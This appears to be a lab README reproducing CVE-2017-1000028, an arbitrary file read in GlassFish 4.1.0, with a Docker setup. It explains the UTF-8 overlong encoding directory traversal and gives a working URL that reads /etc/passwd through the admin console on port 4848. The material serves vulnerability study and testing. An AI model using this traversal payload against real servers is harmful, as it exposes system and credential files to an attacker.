

# GlassFish 4.1.0 Arbitrary File Read (CVE-2017-1000028)

[中文版本(Chinese version)](README.zh-cn.md)

GlassFish is an open-source application server for the Java EE platform. A vulnerability in GlassFish allows attackers to read arbitrary files through UTF-8 Overlong Encoding attack.

The vulnerability exists because GlassFish does not properly handle UTF-8 Overlong Encoding when decoding URLs. As a result, `%c0%ae` is decoded as the ASCII character `.` (dot). By using `%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/` in the URL, an attacker can traverse directories and read arbitrary files on the system.

References:

- <https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2015-016/?fid=6904>
- <https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html>

## Environment Setup

Execute the following command to start a GlassFish server 4.1:

```
docker compose up -d
```

After the server starts, you can access GlassFish Admin Console on `http://your-ip:4848`.

## Vulnerability Reproduction

Visit the following URL to read the contents of `/etc/passwd`:

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```



### Additional Notes

The super administrator password is set in `docker-compose.yml`, with a default value of `vulhub_default_password`. You can use this password to log in to the admin account on port 4848.
